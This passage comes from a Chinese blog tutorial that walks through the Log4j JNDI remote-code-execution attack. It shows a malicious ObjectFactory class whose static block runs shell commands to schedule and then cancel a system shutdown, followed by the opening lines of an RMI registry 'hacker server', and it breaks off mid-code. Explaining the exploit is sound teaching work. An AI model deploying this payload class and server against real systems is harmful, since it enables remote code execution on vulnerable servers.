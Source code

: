 

## 最后来看看Log4j是怎么实现这个远程调用的

重点来来，小六六带你一步步去解开这个谜题哈，首先六六这边肯定先启动一个小六六黑客服务端


- HeiKe服务 2个类

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/96e6f79ff810470eadbe05b9c8b088db~tplv-k3u1fbpfcp-watermark.image?)

- OBJ 攻击服务要做的东西

```
package com.xiaoliuliu;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class OBJ implements ObjectFactory {

    static {

        System.out.println("小六六又黑到一台服务器");

        long time=3600L*24*6;
            try {
                //6天后关机
                Runtime.getRuntime().exec("Shutdown -s -t"+time);
                Thread.sleep(1000);
                //取消关机
                Runtime.getRuntime().exec("Shutdown -a ");
            }catch (Exception e){


            }

    }


    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("获取攻击。。。。。");
        return null;
    }
}
```

- Server 启动类

```
package com.xiaoliuliu;
/*
 六六黑客服务端
 */


import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
```